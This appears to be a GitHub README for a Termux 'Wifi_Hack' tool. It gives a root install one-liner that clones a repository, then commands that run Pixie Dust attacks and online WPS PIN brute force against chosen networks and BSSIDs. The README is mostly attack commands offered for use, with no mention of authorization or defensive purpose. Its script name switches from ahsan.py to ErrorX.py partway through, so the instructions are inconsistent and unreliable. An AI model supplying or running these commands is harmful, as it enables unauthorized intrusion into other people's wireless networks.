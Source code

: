 ## Ahsan&mamun Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/Ahsanullahwifi && cd Ahsanullahwifi && chmod +x ahsan.py && sudo python ahsan.py --help
```

#### Example : `sudo python ahsan.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ErrorX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ErrorX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ErrorX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
